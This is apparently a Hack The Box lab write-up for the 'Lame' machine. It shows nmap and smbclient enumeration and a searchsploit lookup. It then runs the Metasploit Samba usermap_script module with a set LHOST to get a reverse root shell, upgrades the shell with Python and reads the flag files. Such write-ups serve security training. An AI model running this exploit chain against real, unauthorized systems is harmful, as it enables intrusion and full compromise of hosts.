 
# Hack The Box — Lame Writeup

##  Machine Info
- **Machine Name**: Lame
- **IP Address**: 10.129.6.93
- **Operating System**: Linux
- **Date Completed**: 2025-07-01
- **Tools Used**: nmap, smbclient, searchsploit, msfconsole, python

---

## 🔍 1. Reconnaissance

Started with a basic Nmap scan to identify open ports and service versions:

```bash
nmap -sC -sV -T4 -oN lame.nmap 10.129.6.93
````

### 🔎 Nmap Results:

| Port | Service | Version        |
| ---- | ------- | -------------- |
| 21   | FTP     | vsftpd 2.3.4   |
| 22   | SSH     | OpenSSH 4.7p1  |
| 139  | NetBIOS | Samba smbd 3.X |
| 445  | SMB     | Samba smbd 3.X |

---

## 2. Enumeration

I used `smbclient` to enumerate SMB shares and identify the Samba version:

```bash
smbclient -L //10.129.6.93 -N
```

Output:

```
Domain=[WORKGROUP] OS=[Unix] Server=[Samba 3.0.20]
```

Seeing that Samba version 3.0.20 was in use, I used `searchsploit` to look for known exploits:

```bash
searchsploit samba 3.0.20
```

Found:

```
Samba 3.0.20 - Remote Code Execution (user map script)
```

---

##  3. Exploitation

I used the Metasploit `usermap_script` exploit module to exploit the Samba RCE vulnerability and gain a shell:

```bash
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 10.129.6.93
set LHOST 10.10.77.14
run
```

The exploit was successful and returned a **reverse shell as root**.

I then upgraded the shell using Python:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

> Root shell access confirmed using `whoami`.

---

## 4. Privilege Escalation

Not required. The Samba exploit provided a direct **root shell**, so privilege escalation was unnecessary.

---

## 🏁 5. Flags Captured

```bash
cat /root/root.txt
cat /home/makis/user.txt
```

 Root and user flags successfully retrieved.

---

## 🧰 Tools Summary

| Tool           | Purpose                    |
| -------------- | -------------------------- |
| `nmap`         | Port & version detection   |
| `smbclient`    | SMB enumeration            |
| `searchsploit` | Exploit discovery          |
| `msfconsole`   | Remote exploit (Samba RCE) |
| `python`       | TTY shell upgrade          |

